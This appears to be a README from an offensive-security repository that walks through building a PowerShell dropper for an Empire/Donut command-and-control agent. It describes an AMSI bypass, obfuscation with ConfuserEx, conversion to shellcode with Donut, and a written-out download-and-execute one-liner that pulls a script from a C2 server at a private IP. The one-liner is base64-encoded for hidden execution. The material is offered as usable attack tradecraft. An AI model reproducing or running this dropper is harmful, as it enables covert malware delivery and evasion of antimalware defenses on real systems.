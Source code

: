 
#### Shellcode

#### Powershell shellcode launcher lives in readme.md with a byte array for our empire/donut agent
```powershell
cat .\readme.ps1 
```

#### AMSI bypass lives in read.md, it bypasses, sleeps for 6 seconds. We add our dropper one-liner after the sleep command.
```powershell
cat .\read.md
```

#### Obfuscate Prior to Donut
```powershell
.\confuser.cli.exe .\sharpire.exe -o sharpies.exe
```

#### Donut to convert to powershell format
```powershell
.\donut.exe .\sharpies.exe -f 6
cat .\loader.ps1
```

#### Copy and Paste the Shellcode from loader.ps1 into the byte array from readme.md (launcher)
```bash
vim .\readme.md
```

#### Create our oneliner
```powershell
c2="http://192.168.0.243:8000"
$str= "iex (new-object system.net.webclient).downloadstring('http://192.168.0.243:8000/readme.ps1')"
```

#### Encode it for execution
```powershell
$drop = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```

#### Add Base64 oneliner-dropper after the start-sleep -s 6 inside read.md
#### use powershell -encodedcommand $dropperstring and add that to read.md after the sleep
```bash
vim .\read.md
```

#### We would host this on our payload server and can just swap out the shellcode for different agents and control channels

